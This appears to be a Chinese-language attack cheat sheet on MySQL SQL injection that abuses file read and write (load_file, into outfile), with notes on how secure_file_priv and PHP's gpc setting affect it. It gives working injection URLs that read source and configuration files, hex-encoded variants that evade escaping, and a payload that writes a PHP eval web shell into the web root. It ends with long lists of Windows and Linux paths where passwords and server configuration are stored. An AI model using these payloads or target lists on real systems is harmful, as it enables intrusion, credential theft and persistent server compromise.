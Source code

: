 MYSQL新特性secure_file_priv对读写文件的影响 此开关默认为NULL，即不允许导入导出。

secure_file_priv 为空是的时候,方可读写,由于这个参数不能动态更改，只能在mysql的配置文件中进行修改，然后重启生效。 可以通过命令查看这个属性

```sql
select @@secure_file_priv
```

secure_file_priv为null   表示不允许导入导出
secure_file_priv指定文件夹时，表示mysql的导入导出只能发生在指定的文件夹
secure_file_priv没有设置时，则表示没有任何限制

写入文件的时候还需要看php.ini里面gpc是否开启,开启的情况下,特殊字符都会被转义 ' 变成  \\'

读写操作用到两个函数

load_file()读取文件函数

读取当前目录下的index.php文件

```http
http://target_sys.com/article.php?id=-1 union select 1,2,load_file('C:\\inetpub\\wwwroot\\target_sys.com\\index.php')

http://target_sys.com/article.php?id=-1 union select 1,2,load_file('C:/inetpub/wwwroot/target_sys.com/index.php')
```

读取配置文件

```http
http://target_sys.com/article.php?id=-1 union select 1,2,load_file(0x433a2f696e65747075622f777777726f6f742f7461726765745f7379732e636f6d2f646174612f636f6e6669672e696e632e706870)
```

load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录

replace(load_file(0×2F6574632F706173737764),0×3c,0×20)
replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))

上面两个是查看一个PHP文件里完全显示代码.有些时候不替换一些字符,如 “<” 替换成”空格” 返回的是网页.而无法查看到代码.

写shell话到当前目录
前提条件：

- gpc 关闭	

- 目录可写

into outfile  文件导出 空格
into dumpfile 没有空格

```http
http://target_sys.com/article.php?id=-1 union select 1,'<?php phpinfo();eval($_POST[\'smoon\']);?>',3 into outfile 'C:\\inetpub\\wwwroot\\target_sys.com\\wzxmt.php'
```



**windwos常用目录文件**

c:/boot.ini //查看系统版本

c:/windows/php.ini //php配置信息

c:/windows/my.ini //MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码

c:/winnt/php.ini

c:/winnt/my.ini

c:\mysql\data\mysql\user.MYD //存储了mysql.user表中的数据库连接密码

c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini //存储了虚拟主机网站路径和密码

c:\Program Files\Serv-U\ServUDaemon.ini

c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置

c:\windows\repair\sam //存储了WINDOWS系统初次安装的密码

c:\Program Files\ Serv-U\ServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此

c:\Program Files\RhinoSoft.com\ServUDaemon.exe

C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif文件//存储了pcAnywhere的登陆密码

c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf //查看WINDOWS系统apache文件

c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息.

c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机

d:\APACHE\Apache2\conf\httpd.conf

C:\Program Files\mysql\my.ini

C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码



**LUNIX/UNIX常用目录文件:**

/usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件

/usr/local/apache2/conf/httpd.conf

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置

/usr/local/app/php5/lib/php.ini //PHP相关设置

/etc/sysconfig/iptables //从中得到防火墙规则策略

/etc/httpd/conf/httpd.conf // apache配置文件

/etc/rsyncd.conf //同步程序配置文件

/etc/my.cnf //mysql的配置文件

/etc/redhat-release //系统版本

/etc/issue

/etc/issue.net

/usr/local/app/php5/lib/php.ini //PHP相关设置

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置

/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件

/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看

/usr/local/resin-pro-3.0.22/conf/resin.conf 同上

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看

/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件

/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看

/usr/local/resin-pro-3.0.22/conf/resin.conf 同上

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看

/etc/sysconfig/iptables 查看防火墙策略
